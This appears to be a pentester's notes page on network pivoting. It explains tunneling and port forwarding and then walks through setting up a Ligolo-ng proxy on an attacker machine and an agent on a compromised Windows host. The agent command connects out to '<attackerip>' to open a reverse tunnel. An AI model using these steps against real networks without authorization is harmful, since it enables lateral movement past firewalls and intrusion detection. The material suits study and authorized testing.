 ```yaml
---
layout: default
---
```

# Pivoting

Pivoting is the art of using access obtained over one machine to exploit another machine deeper in to the network

Two Main method to do pivioting ;:
* Tunneling/proxying → creating a proxy type connection through a compromised machine in order to route all desired traffic in to the targeted system.This could also be tunnelled inside another protocole (eg SSH tunnelling), which can be useful to evade basic IDS or firewall.
* Port Forwarding → Creating a connection between a local port and single port on a target via compromised host.

Proxy is good if we want to redirect lots of different kind of traffic into our target network (example nmap scan)
Port forwading is faster and reliable but only allows us to access single port on a target device

* * *

## Ligolo-ng 

Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS


* On Attacking machine we run the ligolo proxy
* On the Victim machine we run the ligolo agent

Create a tun interface

```
attacker@ubuntu:~$ sudo ip tuntap add user [your_username] mode tun ligolo

attacker@ubuntu:~$ sudo ip link set ligolo up
```

Run Ligolo 

```
attacker@ubuntu:~$ ./lin-proxy -selfcert -laddr 0.0.0.0:8003
```

On the Target Machine

```
C:\Users\> ./agent -connect <attackerip>:8003 -ignore-cert
```

After we see session is connected Run ifconfig on Attacker machine

```
[Agent : machine\user@dc1] >> ifconfig
```
